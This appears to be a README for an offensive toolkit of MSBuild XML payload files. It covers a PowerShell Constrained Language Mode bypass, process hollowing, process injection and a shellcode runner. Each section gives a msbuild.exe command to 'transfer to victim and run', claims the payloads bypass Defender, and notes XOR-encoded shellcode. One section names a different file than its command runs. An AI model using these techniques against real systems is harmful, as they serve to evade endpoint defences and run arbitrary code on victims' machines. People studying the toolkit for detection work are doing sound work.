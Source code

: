 ### CLM Bypass
- The source file `clm-bypass.xml` can be used to bypass CLM and obtain FullLanguage mode within the same session, transfer to victim and run: 
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe clm-bypass.xml`

### Process Hollowing (can run 32bit shellcode aswell! with Framework64.)
- The file `hollow.xml` can be used to perform process hollowing, very stable and bypass defender, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe hollow.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*

### Process Injection (can run 32bit shellcode aswell! with Framework64.)
- The file `processInjection.xml` can be used to perform process injection, very stable and bypass defender, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe inject.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*

### Shellcode Runner
- The file `shellcodeRunner.xml` used to inject and execute shellcode to the current process, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe shellcodeRunner.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*

